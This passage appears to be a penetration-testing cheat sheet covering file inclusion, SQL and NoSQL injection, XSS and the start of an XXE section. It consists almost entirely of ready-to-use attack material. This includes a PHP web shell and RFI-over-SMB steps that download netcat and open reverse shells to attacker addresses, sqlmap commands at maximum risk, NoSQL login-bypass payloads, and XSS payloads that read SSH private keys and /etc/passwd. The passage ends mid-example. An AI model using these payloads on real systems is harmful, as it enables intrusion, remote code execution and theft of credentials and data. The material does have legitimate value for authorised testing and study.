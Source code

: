 ```
Content of evil.txt:
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>


# PHP Filter:
http://$IP/index.php?m=php://filter/convert.base64-encode/resource=config

# RFI over SMB (Windows)
cat php_cmd.php
    <?php echo shell_exec($_GET['cmd']);?>
  Start SMB Server in attacker machine and put evil script
  Access it via browser (2 request attack):
   http://$IP/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
   http://$IP/blog/?lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234
```
> read this :
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion

#### Sql-injection
```
#POST
sqlmap.py -r search-test.txt

#GET
sqlmap -u "http://$IP/index.php?id=1" --dbms=mysql

#FULL ;)
sqlmap -u 'http://$IP:1337/978345210/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch

# NoSQL
' || 'a'=='a

#in URL
username[$ne]=0xtz&password[$ne]=0xtz

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt":""}, "password": {"$gt":""}}

https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```

#### XSS
```
<script>alert("XSS")</script>
<script>alert(1)</script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText.fontsize(1)) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>

# XXE

XML entry that reads server, Doctype, change to entity "System "file:///etc/passwd""

#Instead POST:

<?xml version="1.0" ?>
```